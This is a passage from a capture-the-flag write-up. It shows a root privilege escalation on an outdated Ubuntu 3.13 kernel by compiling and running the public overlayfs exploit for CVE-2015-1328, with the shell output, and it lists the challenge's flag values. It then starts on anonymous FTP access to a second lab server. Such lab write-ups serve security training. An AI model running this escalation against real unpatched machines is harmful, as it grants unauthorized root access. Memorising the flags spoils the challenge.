 We are told in the previous question that "something is awfully outdated" (see the hint just above the flag), and this is true:

~~~
get_laid@ubuntu:/tmp$ uname -a
Linux ubuntu 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
~~~

Searching for privilege escalation vulnerabilities affecting kernel in 3.13.0, I found this (CVE-2015-1328): https://www.exploit-db.com/exploits/37292. Upload the `ofs.c` script to the server, compile it, and run it to get root access.

~~~
get_laid@ubuntu:/tmp$ gcc ofs.c -o ofs
get_laid@ubuntu:/tmp$ ./ofs 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
root@ubuntu:/tmp# cd /root/
root@ubuntu:/root# ll
total 28
drwx------  3 root root 4096 Dec 13 05:26 ./
drwxr-xr-x 22 root root 4096 Oct  5  2019 ../
-rw-------  1 root root  538 Oct  5  2019 .bash_history
-rw-r--r--  1 root root 3106 Apr 19  2012 .bashrc
drwx------  2 root root 4096 Oct  5  2019 .gnupg/
-rw-r--r--  1 root root  140 Apr 19  2012 .profile
-rw-rw-r--  1 root root   67 Dec 13 05:26 ready.txt
root@ubuntu:/root# cat ready.txt 
Ready for final stage?
ctf100endgame

flag87: 4qo9ik16rx8e8lk71vx3
~~~

# #8 - Flag 88

*Hint: tap tap tap tap*

From here, we have to switch to the second server, available within Task #9.

On the 2nd server, there is a FTP service that allows anonymous connections (BTW, it only allows anonymous connections). Let's get the files:

~~~
$ ftp 10.10.122.45
Connected to 10.10.122.45 (10.10.122.45).
220 (vsFTPd 3.0.3)
Name (10.10.122.45:unknown): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
227 Entering Passive Mode (10,10,122,45,47,165).
^C
receive aborted
waiting for remote to finish abort
ftp> passive
Passive mode off.
~~~